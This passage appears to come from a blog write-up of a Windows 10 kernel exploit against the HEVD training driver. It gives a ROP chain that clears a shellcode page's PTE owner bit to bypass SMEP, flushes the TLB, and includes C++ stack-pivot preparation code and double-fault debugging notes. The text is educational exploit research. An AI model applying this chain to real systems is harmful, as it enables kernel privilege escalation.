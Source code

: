 After bypassing SMEP we want to flush the TLB Cache so calling our shellcode won't bugcheck with ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY.  
As [explained before](https://kristal-g.github.io/2021/02/07/HEVD_StackOverflowGS_Windows_10_RS5_x64.html#:~:text=The%20TLB%20is%20a%20small%20buffer%20in%20the%20CPU), we'll use the wbinvd instruction before finally calling our shellcode.  
  
We know what we want to achieve so now it's time to assemble the rop chain. The obvious restriction was using only [volatile registers](https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-160). It was actually harder than I expected it to be, and it took 4-5 hours at least.  
It came out a bit convoluted because of the gadgets I found, so let's just dive in into what it does and why:
```nasm
pop rcx                 ; rcx = shellcode address
call MiGetPteAddress    
mov r8, rax             ; rax = r8 = Shellcode's PTE address
mov rdx, r8             ; rdx = Shellcode's PTE address
mov rax, [rax]          ; rax = Shellcode's PTE value
mov r8, rax             ; r8 = Shellcode's PTE value
mov rcx, r8             ; rcx = Shellcode's PTE value
mov rax, 4              
sub rcx, rax            ; The Owner flag is the 3rd bit. It was 1 (Owner=Usermode) so by subtracting 4 from it we clear that bit and make it Owner=Kernel
mov rax, rcx            ; rax = modified PTE value
mov [rdx], rax          ; save the modified PTE value back into the PTE address
wbinvd                  ; Clear the TLB Cache
call shellcode          
```
  
At first I tried to only use gadgets from `ntoskrnl.exe` to reduce dependencies but it just didn't have all that I needed, so I added gadgets from `win32kbase.sys`. If you have a suggestion for a simpler rop chain, only from ntoskrnl, let me know!  

Also, when I first tried it I took a different pivot gadget: `mov esp, 0x48000000; add esp, 0x28; ret;`.  
One of the problems that took me some time to figure out was that it always crashed with bugcheck UNEXPECTED_KERNEL_MODE_TRAP and trap mode equals 8 (Double Fault).  
After investigating it for hours I returned to [msdn documentation](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check-0x7f--unexpected-kernel-mode-trap#:~:text=There%20are%20two%20common%20causes%20of%20a%20Double%20Fault) and realized the explanation was there all this time:
> There are two common causes of a Double Fault: 1. A kernel stack overflow. This overflow occurs when a guard page is hit, and the kernel tries to push a trap frame. Because there is no stack left, a stack overflow results, causing the double fault.  

The stack pivot address is `0x48000028` and it lies almost on the border of a page, and I didn't allocate the previous page. Therefore when trying to run the shellcode, the kernel had a page fault and tried to allocate a [_KTRAP_FRAME](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2009%2020H2%20(October%202020%20Update)/_KTRAP_FRAME) on the stack which is 0x190 bytes in size and makes it cross memory page boundaries in the process. Allocating the previous page fixed the Double Fault problem. If your pivot gadget is with a similar condition I hope this will help a bit.  
Other than that, for some reason, the results weren't consistent at all. Taking a different stack pivot gadget fixed it.  

The full stack prep looks like:
```cpp
    stackBuffer = STACK_PIVOT_ADDR;
    stackBuffer = STACK_PIVOT_ADDR;
    printf("[*] New stack at: 0x%llx\n", stackBuffer);
    int index = 0;
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + POP_RCX);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(shellcode);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + MiGetPteAddressOffset);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(ntoskrnlBase + MOV_RAX_TO_R8);
    // The gadgets contains "add rsp, 0x28" so the following is junk
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
    *(QWORD*)(stackBuffer + index++) = (QWORD)(NOP);
```